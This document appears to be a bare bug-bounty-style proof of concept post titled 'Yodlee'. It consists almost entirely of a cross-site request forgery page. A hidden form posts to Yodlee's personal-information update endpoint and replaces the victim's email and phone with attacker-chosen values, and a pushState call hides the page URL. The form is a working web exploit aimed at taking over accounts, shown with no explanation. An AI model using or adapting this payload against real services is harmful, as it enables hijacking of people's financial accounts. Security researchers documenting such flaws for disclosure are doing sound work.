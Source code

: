 ```yaml
---
layout: post
title: Yodlee
---
```


---


 <script>history.pushState('', '', '/')</script>
 <form action="https://money.yodlee.com/services/Authenticator/updatePersonalInformation/?app=10003700&instance=&status=published&token=undefined&resturl=https://172.17.25.209/services/srest/pfm3&version=1003.05&cobAppExtension=pfm3" method="POST">
      <input type="hidden" name="firstName" value="Sahad" />
      <input type="hidden" name="lastName" value="NK" />
      <input type="hidden" name="emailID" value="attacker123&#64;gmail&#46;com" />
      <input type="hidden" name="country" value="United&#32;States&#32;of&#32;America" />
      <input type="hidden" name="mobileNo" value="&#43;1&#45;7012722544" />
      <input type="hidden" name="shareInfo" value="true" />
      <input type="hidden" name="receiveEmails" value="true" />
      <input type="submit" value="Submit request" />
 </form>
 

